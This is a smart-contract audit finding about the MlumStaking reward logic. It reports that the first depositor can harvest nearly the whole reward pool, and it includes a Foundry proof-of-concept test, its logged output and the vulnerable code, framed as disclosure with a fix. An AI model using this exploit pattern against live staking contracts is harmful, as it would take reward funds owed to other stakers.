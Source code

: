 Shiny Neon Kestrel

High

# Unfair  destribution of  rewards

## Summary
If the rewards token has a fixed pool, the first user who creates a position can claim a disproportionately high amount of rewards due to the initial state of the reward .
## Vulnerability Detail
  On the first call to createPosition, _updatePool is invoked.
    Since there are no previous rewards (_accRewardsPerShare = 0), the update in _updatePool doesn't affect reward distribution.The user's ``rewardDebt `` is also set to 0. When harvestPosition is called, it first updates the pool via _updatePool. _accRewardsPerShare is recalculated based on the current rewards balance and staked supply, which ensures it is not 0 if there are rewards available.  _harvestPosition calculates pending rewards using the updated _accRewardsPerShare .   However, since the first user's `` rewardDebt` was initially set to 0 and _accRewardsPerShare was 0 at the time of position creation, the pending rewards calculation allows the first user to harvest almost all rewards.``
<details>
  <summary>POC</summary>
 
  ```solidity
   function testCreatePositions_multiple() public {
        _rewardToken.mint(address(_pool), 100_000_000);
        _stakingToken.mint(ALICE, 100 ether);
        _stakingToken.mint(BOB, 4 ether);

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(100 gwei, 20 days);
        vm.stopPrank();

        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 4 ether);
        _pool.createPosition(0.5 ether, 20 days);
        vm.stopPrank();

        uint256 aliceAmount = _pool.pendingRewards(1);

        uint256 bobAmount = _pool.pendingRewards(2);

        console.log("pool balance", _pool.checkBalance());

        vm.startPrank(BOB);
        bobAmount = _pool.pendingRewards(2);
        console.log("bob pending ", bobAmount);
        _pool.harvestPosition(2);
        console.log("bob rewards ", _rewardToken.balanceOf(BOB));
        vm.stopPrank();

        vm.startPrank(ALICE);
        aliceAmount = _pool.pendingRewards(1);
        console.log("alice pending ", aliceAmount);
        _pool.harvestPosition(1);
        console.log("alice rewards ", _rewardToken.balanceOf(ALICE));
        vm.stopPrank();
    }
```
</details>

```solidity
Ran 1 test for test/MlumStaking.t.sol:MlumStakingTest
[PASS] testCreatePositions_multiple() (gas: 1052189)
Logs:
  pool balance 100000000
  bob pending  0
  bob rewards  0
  alice pending  99999999
  alice rewards  99999999
```

```solidity
File: MlumStaking.sol
680:     function _updatePool() internal {
681:         uint256 accRewardsPerShare = _accRewardsPerShare;
682:         uint256 rewardBalance = rewardToken.balanceOf(address(this)); 
683:         uint256 lastRewardBalance = _lastRewardBalance;
684: 
685:         // recompute accRewardsPerShare if not up to date
686:         if (lastRewardBalance == rewardBalance || _stakedSupply == 0) {
687:             return;
688:         }
689:         uint256 accruedReward = rewardBalance - lastRewardBalance;
690: 
691:         _accRewardsPerShare =
692:             accRewardsPerShare +
693:             ((accruedReward * (PRECISION_FACTOR)) /
694:                 (_stakedSupplyWithMultiplier)); // @audit-info  0 at first
695: 
696:         _lastRewardBalance = rewardBalance;
697: 
698:         emit PoolUpdated(_currentBlockTimestamp(), accRewardsPerShare);
699:     }


File: MlumStaking.sol
808:     function _harvestPosition(uint256 tokenId, address to) internal {
809:         StakingPosition storage position = _stakingPositions[tokenId];
810: 
811:         // compute position's pending rewards
812:         uint256 pending = (position.amountWithMultiplier *
813:             _accRewardsPerShare) /
814:             PRECISION_FACTOR -
815:             position.rewardDebt;
816:         if (pending > 0) {
817:             // send rewards
818:             _safeRewardTransfer(to, pending);
819:         }
820:         emit HarvestPosition(tokenId, to, pending);
821:     }

```


## Impact
It leads to an unfair distribution of rewards, favoring the first user who deposits into the staking pool.
## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L442-L448
## Tool used

Manual Review

## Recommendation
implement same  rewarding mechanism as sushiswap masterchef contract